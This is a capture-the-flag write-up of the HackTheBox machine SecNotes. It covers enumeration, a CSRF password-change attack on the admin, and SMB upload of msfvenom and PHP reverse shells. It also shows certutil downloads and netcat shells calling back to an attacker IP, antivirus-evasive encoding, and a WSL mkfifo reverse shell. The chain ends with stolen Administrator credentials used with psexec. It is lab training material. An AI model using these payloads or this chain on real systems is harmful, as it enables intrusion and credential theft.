



# SecNotes - 10.10.10.97

Web service vulnerable to CSRF (XSS is a rabbit hole). Use that to change admin's credentials by sending him a link in the contact us page. Log on to his page to get creds for SMB share. Use SMB to push php reverse shell to second web page on port 8808. Explore WSL root file system to get Administrator creds from root's `.bash_history`. Use those creds to get system with `psexec`.

# nmap

```
❯ sudo rustscan --ulimit 5000 -a 10.10.10.97 -- -n -Pn -sV -sC -oA nmap-tcp-all

Nmap scan report for 10.10.10.97
Host is up, received user-set (0.022s latency).
Scanned at 2021-08-21 16:17:33 EDT for 53s

PORT     STATE SERVICE      REASON          VERSION
80/tcp   open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp  open  microsoft-ds syn-ack ttl 127 Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h23m19s, deviation: 4h02m31s, median: 3m18s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 25086/tcp): CLEAN (Timeout)
|   Check 2 (port 39634/tcp): CLEAN (Timeout)
|   Check 3 (port 53444/udp): CLEAN (Timeout)
|   Check 4 (port 2904/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2021-08-21T13:21:06-07:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-08-21T20:21:04
|_  start_date: N/A
```

# 80 - http



Basic login form.

Review of source/redirected url shows php in use.

Trying basic creds:

- admin:admin  - FAIL
- admin:password  - FAIL
- `' or 1=1 --`  - FAIL
- `' or 1=1 #`  - FAIL
- `" or 1=1 -- `  - FAIL

Basic scans:

```sh
❯ whatweb -v -a3 http://10.10.10.97 | tee whatweb.log
Summary   : PHP[7.2.7], X-Powered-By[PHP/7.2.7], RedirectLocation[login.php], Microsoft-IIS[10.0], HTTPServer[Microsoft-IIS/10.0], Cookies[PHPSESSID]

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster.txt -u http://10.10.10.97
http://10.10.10.97/auth.php             (Status: 500) [Size: 1208]
http://10.10.10.97/contact.php          (Status: 200) [Size: 1223]
http://10.10.10.97/db.php               (Status: 500) [Size: 1208]
http://10.10.10.97/home.php             (Status: 200) [Size: 1223]
http://10.10.10.97/login.php            (Status: 200) [Size: 1223]
http://10.10.10.97/logout.php           (Status: 200) [Size: 1223]
http://10.10.10.97/register.php         (Status: 200) [Size: 1569]
```

# 8808 - http

Standard IIS server page.

Basic scans:

```sh
❯ whatweb -v -a3 http://10.10.10.97:8808 | tee whatweb-8808.log
Summary   : Microsoft-IIS[10.0], HTTPServer[Microsoft-IIS/10.0]

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi,asp,aspx" -o gobuster-8808.txt -u http://10.10.10.97:8808
# doesn't find anything
```

Nothing here. moving on.

# 445 - smb

Basic scan:

```sh
❯ enum4linux -aMld 10.10.10.97 | tee enum4linux.log
# nothing

❯ smbmap -u guest -H 10.10.10.97 | tee smbmap.log
[!] Authentication error on 10.10.10.97
```

Tried with users:

- `<null>`
- admin
- administrator
- guest

All failed?

Moving on.

# 80 - http, take 2

Can't visit other paths from gobuster without logging in, but it has a registration page.

Registered user:

- derp:herpaderp

Logged in!



Notice the email in the GDPR label:

- tyler@secnotes.htb

Inspecting source, see new pages:

- submit_note.php
- change_pass.php

Created new note, tried injecting XSS:

- title: `test<script>alert(1)</script>`
- body: `<script>alert(document.domain)</script>`

That made a note, but no alerts popped up.

Tried sending payload:

- `<script src=http://10.10.14.10/test.js></script>`

Start http listener on port 80:

```sh
sudo python3 -m http.server 80
```

But don't get hits.

Creating test posts makes them show up on main page with "delete" button next to them.

- http://10.10.10.97/home.php?action=delete&id=9%22

Can't seem to do SQL injection on ID field, though.  Tried adding single and double quotes, with action `show` and `display`.

Looking at page source see popper.js.

```
searchsploit popper
```

Checking out 2351, mentions there is RFI with path:

- `http://10.10.10.97/SCRIPT_PATH/childwindow.inc.php?form=http://10.10.10.97?&cmd=id`

Tried using just `/` for script path, also `script`, `scripts` and `cgi_bin`. All failed.

Jumping back to try log in with `tyler`: gives different error message ("Password not valid", vs "Username not found")

- user enumeration possible

# xss redux

Going back to try injecting XSS with the new note after seeing the tags were in the source, but there was a typo.

This time it works!

Both title and body are vulnerable with `test<script>alert(1)</script>`

# contact page redux

Going back to contact page, instead of sending full script tag, sending just a link, we get a hit on the python web server listener.

Thinking through options:

- I have XSS, but if I send him to this page, it'll be using his creds so he may not see my xss payload to harvest his cookie
- I can try fingerprinting his browser to do a browser exploit
- I can see if the site is vulnerable to CSRF and maybe get him to change his password to something I know?

# CSRF attempt

To test CSRF, first create a second user:

- bubba:herpaderp

Craft malicious web page:

```html
<html>
  <script>
    let url = "http://10.10.10.97/change_pass.php";
    fetch(url, {
      method: "POST",
      mode: "no-cors",
      headers: {
        Origin: "http://10.10.10.97",
        Referer: "http://10.10.10.97/change_pass.php",
        "Content-Type": "application/x-www-form-urlencoded"
      },
      credentials: "include",
      body: "password=password&confirm_password=password&submit=submit",
    });
  </script>
</html>
```

This page will send a post request to change the user's password for the secure notes site upon visiting.

Testing on the user `bubba` worked! Possible limitation: I visited the page in my browser. If `tyler` doesn't execute Javascript (i.e. through browser), I may have to figure something else out.

Sending `tyler` to this url (after standing up local python web server):

- http://10.10.14.10/chpass.html

FAIL. He must not be executing javascript? Time to fingerprint his user-agent to confirm. Sending him to same link, but with netcat listener to catch his request:

```sh
sudo nc -nlvp 80
# User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17134.228
```

**LESSON LEARNED:** Always grab user agent first to avoid wasting time.

Back to the drawing board. Do we actually NEED a POST request to do the change password request? Can we do it with a GET request?

Trying url:

- `http://10.10.10.97/change_pass.php?password=herpaderp&confirm_password=herpaderp&submit=submit`

And my user's password changes!

Now send Tyler to the same URL.

But it's not working?

Revert machine and try again. Works!

# Tyler's page



Looking at years note it's odd:

```
1957, 1982, 1993, 2005, 2009*, and 2017
```

Why is 2009 starred?

New site post has creds!

```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

That looks like SMB creds!

Listing SMB shares:

```sh
❯ smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -d secnotes.htb -H 10.10.10.97 | tee smbmap.log
[+] IP: 10.10.10.97:445	Name: 10.10.10.97
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	new-site                                          	READ, WRITE
```

We have read-write access to `new-site`! Let's check it out more.

```sh
❯ smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -d secnotes.htb -R -H 10.10.10.97
# --- snip ---
  .\new-site\*
	dr--r--r--                0 Sat Aug 21 18:16:47 2021	.
	dr--r--r--                0 Sat Aug 21 18:16:47 2021	..
	fr--r--r--              696 Thu Jun 21 16:15:36 2018	iisstart.htm
	fr--r--r--            98757 Thu Jun 21 16:15:38 2018	iisstart.png
```

Looks like it's the empty  IIS page on port 8808.

Let's try putting a page there! Here's our test page:

```html
<html>
  <body>
    <h1>
      Test page
    </h1>
  </body>
</html>
```

Now upload with smbclient:

```sh
❯ smbclient '\\10.10.10.97\new-site\' -W secnotes.htb -U tyler '92g!mA8BGjOirkL%OG*&'
smb: \> put ../exploit/test.html test.html
```

And visiting the url `http://10.10.10.97:8808/test.html`, we see our page! Now to get code execution.

Since this site is Microsoft IIS, we should be able to execute ASP code. Let's try a reverse shell with ASP.

```sh
# make reverse shell payload
❯ msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.10 LPORT=443 -f asp > shell.asp

# upload with smbclient
smb: \> put ../exploit/shell.asp rsh.asp

# start netcat listener
❯ sudo nc -lvnp 443

# visit page
http://10.10.10.97:8808/rsh.asp
```

But I get a 404 error? Listing the files in smbclient shows the file was removed. They must have an automated script that removes them. Lame.

Try again with asp and aspx files, but can't get a shell. Next try with php reverse shell:

```sh
❯ msfvenom -p php/reverse_php LHOST=10.10.14.10 LPORT=443 -f raw > rsh.php
```

And that gives a shell! However it's not super stable, so try uploading an msf reverse shell:

```sh
❯ msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe > rsh.exe

# on victim:
certutil -urlcache -split -f http://10.10.14.10/rsh.exe %temp%\rsh.exe
```

But that hangs after getting a connection? Maybe there is AV on the box. Try again with netcat:

```sh
# copy netcat to web server folder
❯ cp /usr/share/windows-resources/binaries/nc.exe .
# start new netcat listener
sudo nc -nlvp 443

# on victim, download netcat:
certutil -urlcache -split -f http://10.10.14.10/nc.exe \users\tyler\nc.exe
# connect to listener
\users\tyler\nc.exe -e cmd 10.10.14.10 443
```

And we have a shell!

# PrivEsc

```sh
# check privs
whoami /all
# not admin, no special privileges

systeminfo
# access denied error???? Never seen that before

# look at installed programs
cd \
dir /b PROGRA~1 PROGRA~2
# MySQL
# Oracle

# check users
cd \users
dir
# wayne
# tyler
# new
# newsite

# check interesting files in tyler's directory
cd \users\tyler
dir /s/b desktop documents downloads onedrive pictures secnotes_contacts
# C:\Users\tyler\desktop\bash.lnk
# C:\Users\tyler\desktop\Command Prompt.lnk
# C:\Users\tyler\desktop\File Explorer.lnk
# C:\Users\tyler\desktop\Microsoft Edge.lnk
# C:\Users\tyler\desktop\Notepad++.lnk
# C:\Users\tyler\desktop\user.txt
# C:\Users\tyler\desktop\Windows PowerShell.lnk
# C:\Users\tyler\pictures\Camera Roll
# C:\Users\tyler\pictures\Saved Pictures
# C:\Users\tyler\secnotes_contacts\check-messages-orig.ps1
# C:\Users\tyler\secnotes_contacts\check-messages.ps1
```

Some interesting stuff there:

- link to bash on desktop? never seen that before
- check-messages.ps1 script

Every time I try grabbing files, the transfer hangs!

- FTP upload - times out
- HTTP upload - no data xfered
- SMB - SUCCESS

But I'm still running into issues running things like:

```
\\10.10.14.10\share\winPEASany.exe
```

Which hangs almost immediately.

And I can't access the `C:\Users\Public` folder or run commands like `systeminfo`? This box is weird...

Deciding to try making a more obfuscated version of msf reverse shell:

```sh
❯ msfvenom -f exe -o rsh.exe -p windows/shell_reverse_tcp -a x86 --platform windows -e x86/shikata_ga_nai -i 9 LHOST=10.10.14.10 LPORT=443
```

This uses 9 iterations to hide better.

Now running `\\\10.10.14.10\share\rsh.exe` works! And it's more stable than my netcat shell. Go figure.

Looking for unquoted service paths fails with permission denied:

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

Trying to see if the link to bash leads anywhere. There is mention of WSL being able to give bind shell:

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

```sh
# try following along with WSL shell part
dir /s/b *ubuntu*.exe
cd C:\Users\tyler\AppData\Local\Microsoft\WindowsApps\
.\ubuntu1804.exe config --default-user root
# The system cannot execute the specified program.

cd C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs
# see ubuntu file system, but not noticing anything for exploit right away
```

I'll circle back to this.

Now looking at web directory for creds:

```sh
cd \inetpub\wwwroot
type db.php
# define('DB_SERVER', 'localhost');
# define('DB_USERNAME', 'secnotes');
# define('DB_PASSWORD', 'q8N#9Eos%JinE57tke72');
# //define('DB_USERNAME', 'root');
# //define('DB_PASSWORD', 'qwer1234QWER!@#$');
```

Interesting creds.... cut short by A-rey to avoid long rabbit hole.

Back to looking at bash.

```sh
# find the wsl binary
dir /s/b *wsl*.exe

cd C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\

.\wsl.exe whoami
# no output?

# try bash exe again
dir /s/b *bash*.exe
cd C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\
.\bash.exe -c whoami
# no output

# maybe I can still get code execution without seeing the output?
.\bash.exe -c "ping -c3 10.10.14.10"
# local listener:
❯ sudo tcpdump -vvv -nn -i tun0 icmp
# and I see pings!
```

Now trying to get reverse shell:

```sh
# start local listener:
❯ sudo rlwrap nc -lvnp 443

# kick off shell:
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 443 >/tmp/f"
```

I get a callback, and I'm root! However, I can't access folders that `tyler` can't already access :'(

However, maybe there are interesting files in the Linux filesystem. Searching around for creds, find this:

```sh
cd /root
cat .bash_history
# smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```

Now we can psexec into the box!

```sh
❯ impacket-psexec 'secnotes.htb/administrator:u6!4ZwgwOM#^OBf#Nwnh@10.10.10.97'
```


# Tips from A-rey

- searchsploit versions from nmap scan before moving on
- noticing email in web page? Go back and try logging in as that user
- make folder bookmarking URLs for boxes so you can click to go back

- Inspect the web source after doing xss testing

- make (manual) privesc enumeration as methodical as initial access enum!

